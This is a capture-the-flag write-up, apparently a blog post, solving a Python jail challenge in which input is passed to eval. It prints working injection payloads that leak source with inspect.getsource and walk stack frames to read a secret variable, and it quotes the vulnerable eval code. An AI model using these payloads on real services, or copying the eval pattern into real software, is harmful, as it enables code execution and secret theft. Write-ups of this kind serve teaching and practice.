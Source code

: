 ```yaml
---
title: Hexpresso FIC Quals 2019: Step 5
slug: hexpresso-fic-5
date: 20/12/2019
---
```


The fifth step is a Python jail that we must escape.

![Introduction](/assets/hexpresso-fic-quals/step5/intro.png)

We are provided a few files allowing to connect to the challenge:

```
$ socat stdio openssl-connect:ctf.hexpresso.fr:2323,cert=client.pem,cafile=server.crt,verify=0
>et ça fait bim bam boum
Bad flag !
```

Well... Looks like our input is somehow compared to the actual flag. Let's
try to break the script in order to get a trace:

```
>'
Traceback (most recent call last):
  File "./main.py", line 28, in <module>
    main()
  File "./main.py", line 21, in main
    if flag == get_input():
  File "./main.py", line 15, in get_input
    return eval(f"""'{input(">")}'""")
  File "<string>", line 1
    '''
      ^
SyntaxError: EOF while scanning triple-quoted string literal
```

There is a lot of information here! What we know:

* The script is `main.py`
* Our input is retrieved using the `input` function
* The [f-string](https://realpython.com/python-f-strings/) feature is used,
so we are in a Python 3.6 runtime at least
* Our input is put into single quotes and forwarded to `eval`
* We are in a function `get_input`
* `get_input` is called in main
* There is a `flag` variable in the `main` function that looks to hold the flag

We can inject Python using a standard closing/comment payload such as:

```
>vroum' and print('Hello') #
Hello
Bad flag !
```

In that example, the following is evaluated:

```python
'vroum' and print('Hello') #'
```

As `'vroum'` is a truthy, the other side of the `and` gets to be evaluated
and our `print` is executed.

I used [inspect](https://docs.python.org/3/library/inspect.html) in order
to leak the source code:

```
>vroum' + print(__import__('inspect').getsource(get_input)) #
def get_input():
    return eval(f"""'{input(">")}'""")
[truncated]
```

Let's get main:

```
>vroum' + print(__import__('inspect').getsource(main)) #
def main():
    flag = get_flag()

    if flag == get_input():
        print(SUCCESS)
    else:
        print(FAIL)
[truncated]
```

The `get_flag` function looks promising!

```
>vroum' + print(__import__('inspect').getsource(get_flag)) #
def get_flag():
    flag = os.environ.get("FLAG", "FLAG{LOCAL_FLAG}")
    os.environ.update({"FLAG": ""})
    return flag
```

Too bad for us... The flag is retrieved and then emmediately removed
from the environment at the start of the script. We'll have to go back a couple
of scopes in order to reach the `flag` variable and print its content.

```
>vroum' and print(__import__('inspect').currentframe().f_back.f_back.f_locals) #
{'flag': 'Next step : http://c4ffddcc437c5df3e6d681e7cafab510.hexpresso.fr'}
Bad flag !
```

This payload is actually very simple:

* Import `inspect`
* Get the current frame (in the `eval`)
* Go back one scope (to `get_input`)
* Go back another scope (to `main`)
* Print the local variables (of `main`)

[Click here](/posts/hexpresso-fic-6) for the next step!
